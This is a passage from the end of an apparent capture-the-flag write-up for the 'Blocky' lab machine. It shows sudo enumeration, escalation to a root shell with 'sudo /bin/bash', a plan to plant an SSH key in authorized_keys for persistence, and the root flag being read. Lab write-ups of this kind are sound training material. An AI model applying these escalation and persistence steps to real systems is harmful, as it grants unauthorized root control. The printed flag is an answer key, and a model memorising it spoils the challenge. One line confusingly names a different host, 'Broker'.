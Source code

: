 ```sh
notch@Blocky:~$ sudo -l
```

```
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

We can run anything as `root`!

## Privilege escalation (Sudo permissions)

### Exploitation

Let's get an elevated shell:

```sh
notch@Blocky:~$ sudo "/bin/bash"
```

```
root@Blocky:~#
```

Yay!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Broker. This way, I'll have a much more stable
shell.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@Blocky:~# cat "/root/root.txt"
```

```
70966d68d0867f2024b5ff85915c095a
```

# Afterwords
